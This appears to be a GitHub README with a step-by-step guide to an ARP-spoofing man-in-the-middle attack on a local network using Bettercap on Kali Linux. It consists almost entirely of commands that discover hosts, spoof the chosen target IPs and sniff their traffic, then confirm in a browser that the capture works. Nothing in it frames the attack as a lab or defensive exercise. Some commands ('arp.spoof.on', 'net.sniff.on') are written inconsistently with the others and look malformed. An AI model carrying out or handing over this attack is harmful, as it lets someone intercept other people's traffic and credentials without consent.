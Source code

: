 # INSTRUCTIONS:
1. Open a terminal on kali linux and install Bettercap tool

2. For installation run <br>
&emsp;&emsp;&emsp;$ sudo apt-get install bettercap

3. Or clone the git repository of Bettercap from github to your kali machine

4. Run the following commands for the target ip addresses on the network, <br>
&emsp;&emsp;&emsp;Open a terminal <br>
&emsp;&emsp;&emsp;$ sudo bettercap <br>
&emsp;&emsp;&emsp;$ net.probe on  (To discover the targets) <br>
&emsp;&emsp;&emsp;$ net.recon on (To discover more targets on the network) <br>
&emsp;&emsp;&emsp;$ net.show (To display target ip addresses) <br>
&emsp;&emsp;&emsp;Now we can see all the ip addresses in our network

5. Now set the fullduplex mode to true  <br>
&emsp;&emsp;&emsp;$ set arp.spoof.fullduplex true

6. Then give the targets by seperating with commas <br>
&emsp;&emsp;&emsp;$ set arp.spoof.targets ip1,ip2,ip3....

7. Now run the following commands to start the attack <br>
&emsp;&emsp;&emsp;$ arp.spoof.on <br>
&emsp;&emsp;&emsp;$ net.sniff.on

8. Now check the attack by using any browser, if the bettercap is capturing the packets then the attack is working properly.

9. To exit the attack run <br>
&emsp;&emsp;&emsp;$ exit

10. That's it, you did it.
